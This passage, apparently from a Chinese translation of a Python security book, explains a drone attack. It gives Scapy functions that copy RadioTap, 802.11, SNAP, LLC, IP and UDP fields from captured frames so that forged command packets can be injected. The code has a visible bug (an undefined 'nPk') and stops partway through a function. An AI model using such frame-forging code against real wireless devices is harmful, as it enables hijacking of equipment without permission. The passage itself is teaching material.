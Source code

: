 我们建立我们的新的数据包，复制 RadioTap, 802.11, SNAP, LLC, IP 和 UDP 的没一层的协议。注意，我们在每一层里抛弃一些字段，比如，我们不用复制 IP 地址字段。我们的命令可能包含不同长度的大小，我们可以让`Scapy`自动的计算生成数据包，同样，对于一些校验值也是一样。有了这些知识在手，我们现在可以继续我们的无人机攻击了。我们将脚本保存为`dup.py`，因为它复制了太多的 802.11 数据帧的字段。

```
from scapy.all import *
def dupRadio(pkt):
    rPkt=pkt.getlayer(RadioTap)
    version=rPkt.version
    pad=rPkt.pad
    present=rPkt.present
    notdecoded=rPkt.notdecoded
    nPkt = RadioTap(version=version, pad=pad, present=present, notdecoded=notdecoded)
    return nPk

def dupDot11(pkt):
    dPkt=pkt.getlayer(Dot11)
    subtype=dPkt.subtype
    Type=dPkt.type
    proto=dPkt.proto
    FCfield=dPkt.FCfield
    ID=dPkt.ID
    addr1=dPkt.addr1
    addr2=dPkt.addr2
    addr3=dPkt.addr3
    SC=dPkt.SC
    addr4=dPkt.addr4
    nPkt=Dot11(subtype=subtype,type=Type,proto=proto,FCfield=FCfield,ID=ID,addr1=addr1,addr2=addr2,addr3=addr3,SC=SC,addr4=addr4)
    return nPkt

def dupSNAP(pkt):
    sPkt=pkt.getlayer(SNAP)
    oui=sPkt.OUI
    code=sPkt.code
    nPkt=SNAP(OUI=oui,code=code)
    return nPkt

def dupLLC(pkt):
    lPkt=pkt.getlayer(LLC)
    dsap=lPkt.dsap
    ssap=lPkt.ssap
    ctrl=lPkt.ctrl
    nPkt=LLC(dsap=dsap,ssap=ssap,ctrl=ctrl)
    return nPkt

def dupIP(pkt):
    iPkt=pkt.getlayer(IP)
    version=iPkt.version
    tos=iPkt.tos
    ID=iPkt.id
    flags=iPkt.flags
    ttl=iPkt.ttl
    proto=iPkt.proto
    src=iPkt.src
    dst=iPkt.dst
    options=iPkt.options
    nPkt=IP(version=version,id=ID,tos=tos,flags=flags,ttl=ttl,proto=proto,src=src,dst=dst,options=options)
    return nPkt

def dupUDP(pkt):
    uPkt=pkt.getlayer(UDP)
    sport=uPkt.sport
```
